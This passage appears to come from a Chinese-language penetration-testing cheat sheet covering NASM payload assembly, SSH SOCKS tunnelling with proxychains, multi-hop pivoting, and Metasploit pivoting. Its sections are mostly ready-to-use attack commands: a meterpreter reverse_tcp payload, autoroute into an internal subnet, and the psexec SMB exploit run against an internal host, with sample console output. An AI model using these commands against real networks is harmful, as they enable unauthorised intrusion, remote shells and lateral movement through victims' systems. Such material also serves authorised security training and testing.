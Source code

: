 
### 27.NASM 命令

NASM 全称 The Netwide Assembler，是一款基于80×86和x86-64平台的汇编语言编译程序，其设计初衷是为了实现编译器程序跨平台和模块化的特性。

主页地址： [https://www. nasm.us/index.php](https://link.zhihu.com/?target=https%3A//www.nasm.us/index.php)

拓展学习： [https:// blog.csdn.net/patronwa/ article/details/100099213](https://link.zhihu.com/?target=https%3A//blog.csdn.net/patronwa/article/details/100099213)

> 
<pre>nasm -f bin -o payload.bin payload.asm
nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload</pre>


### 28.SSH 穿透

拓展学习《SSH内网穿透的N种姿势》： [https:// blog.csdn.net/MasonQAQ/ article/details/78190400](https://link.zhihu.com/?target=https%3A//blog.csdn.net/MasonQAQ/article/details/78190400)

> 
<pre>ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target</pre>


### 29.SSH 穿透从一个网络到另一个网络

> 
<pre>ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target</pre>


### 30.使用 metasploit 进行穿透

拓展学习《Meterpreter命令详解》： [https://www. cnblogs.com/backlion/p/ 9484949.html](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/backlion/p/9484949.html)

> 
<pre>route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E


或者


https://www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter &gt; ipconfig
IP Address  : 10.1.13.3
meterpreter &gt; run autoroute -s 10.1.13.0/24
meterpreter &gt; run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter &gt; Ctrl+Z
msf auxiliary(tcp) &gt; use exploit/windows/smb/psexec
msf exploit(psexec) &gt; set RHOST 10.1.13.2
msf exploit(psexec) &gt; exploit
meterpreter &gt; ipconfig
IP Address  : 10.1.13.</pre>
